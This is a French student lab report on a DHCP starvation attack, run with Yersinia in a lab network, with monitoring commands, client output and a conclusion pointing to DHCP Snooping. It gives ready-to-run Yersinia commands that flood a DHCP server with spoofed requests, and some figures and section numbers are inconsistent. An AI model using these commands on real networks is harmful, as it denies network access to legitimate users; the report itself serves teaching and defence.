




# Rapport TP : Attaque DHCP Starvation

## Introduction

L'attaque **DHCP Starvation** est une forme d'attaque par déni de service qui vise à épuiser les adresses IP disponibles sur un serveur DHCP, empêchant ainsi les clients légitimes d'obtenir une configuration réseau.

## Architecture du Réseau

### Topologie

```
┌─────────────────────────────────────────────────────┐
│                 Réseau 192.168.100.0/24             │
├─────────────────────────────────────────────────────┤
│                                                     │
│  ┌──────────────┐      ┌──────────────┐      ┌──────────────┐
│  │ Serveur DHCP │──────│    Switch    │──────│  Attaquant   │
│  │ 192.168.100.1│      │   (optionel) │      │192.168.100.102│
│  └──────────────┘      └──────────────┘      └──────────────┘
│                                                     │
│                                              ┌──────────────┐
│                                              │   Victime    │
│                                              │192.168.100.104│
│                                              └──────────────┘
└─────────────────────────────────────────────────────┘
```

### Configuration des machines

- **Serveur DHCP** : 192.168.100.1 (Debian/Ubuntu avec isc-dhcp-server)
- **Machine victime** : 192.168.100.104 (tente d'obtenir une IP)
- **Machine attaquante** : 192.168.100.102 (Kali Linux)
- **Plage DHCP** : 192.168.100.100-150 (51 adresses disponibles)

## Partie 1 : Fonctionnement normal (avant attaque)

### Test avec un client légitime

```bash
# Sur la machine victime (192.168.100.104)
sudo dhclient -r  # Libérer l'adresse actuelle
sudo dhclient -v  # Demander une nouvelle IP

# Vérification
ip addr show
```

.

**Résultat attendu :** Le client obtient une adresse IP dans la plage 100-200.

### Vérification sur le serveur DHCP

```bash
# Voir les baux actifs
sudo cat /var/lib/dhcp/dhcpd.leases

# Compter le nombre de baux
sudo grep "lease " /var/lib/dhcp/dhcpd.leases | wc -l
```

.

## Partie 2 : L'attaque DHCP Starvation

### Principe de l'attaque

L'attaquant envoie massivement des requêtes DHCP Discover avec des **adresses MAC falsifiées**. Le serveur DHCP réserve une adresse IP pour chaque requête, épuisant ainsi le pool disponible.

### Utilisation de Yersinia

#### Installation

```bash
# Sur Kali Linux (déjà installé généralement)
sudo apt update
sudo apt install yersinia -y
```

#### Lancement de l'attaque en mode graphique

```bash
sudo yersinia -G
```

**Étapes dans l'interface :**

1. Cliquer sur "Launch attack"
2. Sélectionner "DHCP"
3. Choisir "Sending DISCOVER packet"
4. Cliquer sur "OK"

#### Lancement en ligne de commande

```bash
# Mode interactif
sudo yersinia -I
# Puis 'g' pour DHCP, '1' pour Discover attack

# Mode automatique
sudo yersinia dhcp -attack 1 -interface eth0
```

### Visualisation de l'attaque en temps réel

**Terminal 1 - Attaque :**

```bash
sudo yersinia dhcp -attack 1 -interface eth0
```

.

**Terminal 2 - Monitoring serveur :**

```bash
# Voir l'évolution du nombre de baux
watch -n 1 'sudo grep "lease " /var/lib/dhcp/dhcpd.leases | wc -l'
```

## Partie 4 : Observations et Résultats

### Sur le serveur DHCP

```bash
# Avant l'attaque
Nombre de baux actifs : 1-2

# Pendant l'attaque
Nombre de baux actifs : 100/100 (pool épuisé)

# Voir les logs
sudo tail -f /var/log/syslog | grep dhcp
```

**Logs typiques :**

.

### Sur la machine victime

```bash
sudo dhclient -v eth0
```

**Sortie après épuisement du pool :**

```
DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 3
DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 8
DHCPDISCOVER on eth0 to 255.255.255.255 port 67 interval 11
No DHCPOFFERS received.
No working leases in persistent database - sleeping.
```

## Conclusion

### Ce que nous avons appris

1. **Vulnérabilité DHCP** : Le protocole DHCP est vulnérable aux attaques DoS
2. **Facilité d'attaque** : Les outils comme Yersinia rendent l'attaque simple
3. **Impact réel** : Une seule machine peut bloquer tout un réseau
4. **Protection efficace** : DHCP Snooping est une solution robuste
5. **Importance de la surveillance** : Les logs sont essentiels pour détecter les attaques

---

**Rapport réalisé par :** METOGHE OBIANG Simplice Dariel

**Date :** 19 janvier 2026
